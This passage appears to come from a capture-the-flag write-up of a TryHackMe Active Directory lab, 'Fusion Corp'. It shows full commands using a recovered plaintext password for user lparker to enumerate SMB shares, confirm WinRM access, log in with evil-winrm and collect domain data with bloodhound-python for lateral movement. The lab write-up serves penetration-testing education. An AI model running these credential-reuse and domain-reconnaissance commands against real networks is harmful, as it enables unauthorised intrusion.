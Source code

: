 Nothing interesting found in the SMB shares.

```bash
nxc smb fusion.corp -u 'lparker' -p '!!abbylvzsvs2k6!' --shares
```

![image.png](/assets/images/FusionCorpTHM/image%2015.png)

lparker user has remote access to the server.

```bash
nxc winrm fusion.corp -u 'lparker' -p '!!abbylvzsvs2k6!'
```

![image.png](/assets/images/FusionCorpTHM/image%2016.png)

Logged in as lparker using Evil-winrm to retrieve our first flag.

```bash
evil-winrm 10.10.238.231 -u 'lparker' -p '!!abbylvzsvs2k6!'
```

![image.png](/assets/images/FusionCorpTHM/image%2017.png)

Now to do lateral movement, we used bloodhound-python to gather and analyse the full domain in Bloodhound.

```bash
bloodhound-python -u 'lparker' -p '!!abbylvzsvs2k6!' -dc fusion-dc.fusion.corp -d fusion.corp -ns 10.10.238.231 -c all --zip
```

![image.png](/assets/images/FusionCorpTHM/image%2018.png)
